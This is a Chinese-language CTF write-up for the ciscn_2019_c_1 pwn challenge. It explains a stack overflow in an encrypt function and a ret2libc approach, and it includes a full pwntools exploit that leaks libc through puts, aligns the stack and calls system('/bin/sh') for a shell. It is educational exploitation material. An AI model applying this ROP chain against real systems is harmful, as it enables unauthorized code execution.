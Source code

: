 # ciscn_2019_c_1

## 题目分析

- 首先是`checksec`检查程序，效果如下图

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-10-02_15-18-43.png)

可知该程序 具有`NX`保护，因为无法使用`ret2shllcode`；因为使用`ret2shellcode`需要将部分数据写入内存，并解析为代码来执行；很明显`NX`保证了**内存可写区域不可执行**；从而阻止了这一点

- 使用IDA反汇编，可以发现没有我们常用的`system`函数，然后分析程序；发现`encrypt`函数如下图所示

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-10-02_15-23-19.png)

- 该程序具有输入，但无输入长度限制，所以存在**栈溢出**
- 由于没有`system`函数，故常用的`ret2system`方法无法构建只能使用`ret2libc`方法

## exp构建要点

前面的内容已经明确所要使用的思想是`ret2libc`,该程序为64位

### 获取system函数地址

由于我们的程序中不存在`system`函数地址，也没有需要使用的`/bin/sh`字符串，但是我们可以知道，在程序调用的库函数`libc`中一定存在该函数与字符串，并且函数之间的相对偏移是固定的；尽管有的程序开启了`ALSR`保护。`libc`等库函数是随机动态的加载到程序中也只是针对于地址中间位进行随机，最低的 12 位并不会发生改变；因此 我们可以获取程序中需要调用的`puts`函数，来**泄露`libc`的基地址**，从而得到我们想要的数据；

而`libc`的泄露涉及到 **延迟绑定机制**；具体内容参考 **plt和got表**文档



### paylaod以\x00开头

才需要注意：**在该题中，`encrypt`函数对与输入的字符串做了处理，可能会改变输入的payload数据，为了防止这一点，利用`strlen`以`\x00`截断为特点，在`payload`开头将第一个填充字母替换为`\x00`避免了后续的处理过程**



### libc基地址

要注意 `libc`的基地址一定是 `0x7f`开头 共六字节；例如`0x7fe75fe479d0`；如果出现了 `a`开头，需要注意地址截断方式；`0xa`是`\n`，换行符；`puts`函数在输出字符串后，会输出一个`\n`;



### 参数传递

在我们构建调用`system`的函数过程中，需要给`system`传递参数 `/bin/sh`,所以我们需要注意传递参数的方式

**在64bit程序中，六个参数是通过rdi,rsi,rdx,rcx,r8 和 r9进行传递的，其余的通过栈传递；所以要使用 gadget 片段，来将目标值填充到对应寄存器**

**在32bit程序中，使用的是栈传递参数**



### 栈对齐

特别注意到题目是部署在Ubuntu18上的，因此调用`system`需要栈对齐，这里填充ret来对齐；详细说明见如下链接

主要原因是[[原创\]CTF 100步getshell之就差一步——The MOVAPS issue-Pwn-看雪论坛-安全社区|安全招聘|bbs.pediy.com](https://bbs.pediy.com/thread-269597.htm)

https://www.cnblogs.com/Rookle/p/12871878.html

## EXP

```python
#! /usr/bin/env python3
from pwn import *
from LibcSearcher import *

# ret2lic

io = process("/home/always/PWN/ciscn_2019_c_1")
# ELF模块用于获取ELF文件的信息
e = ELF("/home/always/PWN/ciscn_2019_c_1")
#显示调试信息，方便调试
context(os='linux', arch='amd64', log_level='debug')

offset = 87     #rbp -0x50  0x50 = 80 ; 80+8 =88byte

puts_plt_addr = e.plt["puts"]         #get pust() plt addr
puts_got_addr = e.got["puts"]          #get puts() got addr
main_addr = e.symbols["main"]


#change to input the plaintxt,it's the first time to input payload
io.sendlineafter("Input your choice!","1")

#ROPgadget --binary ciscn_2019_c_1 |grep "pop rdi" ; to get the "pop rai; ret" addr  0x0000000000400c83
pop_rdi_ret_addr = 0x0400c83
#pause()
#use the puts function to output the puts@got addr and ret to the main to inpupt the payload2
payload1 = b"\x00" + offset*b"A" + p64(pop_rdi_ret_addr) + p64(puts_got_addr) + p64(puts_plt_addr) + p64(main_addr)
io.sendlineafter("Input your Plaintext to be encrypted",payload1)
#----------------payload1 finish --------------------------------------------
io.recvuntil("Ciphertext\n")

io.recvline()
#puts_leak= u64(io.recvline()[0:8].ljust(8,b'\x00'))
puts_leak= u64(io.recvuntil("\n",drop=True).ljust(8,b'\x00'))
libc = LibcSearcher("puts",puts_leak)
log.success('puts_leak_addr => {}'.format(hex(puts_leak)))
libc_base = puts_leak - libc.dump("puts")
sys_addr  = libc_base + libc.dump("system")
binsh_addr = libc_base + libc.dump("str_bin_sh")
ret = 0x04006b9         #使system位置 栈对齐 ubuntu18 以上要求 按16字节对齐
payload2 = b"\x00" + offset*b"A" +p64(ret) + p64(pop_rdi_ret_addr) + p64(binsh_addr) + p64(sys_addr) +8*b'A'
#----------------payload2 finish --------------------------------------------
io.sendlineafter("Input your choice!","1")
io.sendlineafter("Input your Plaintext to be encrypted",payload2)

io.interactive()
```

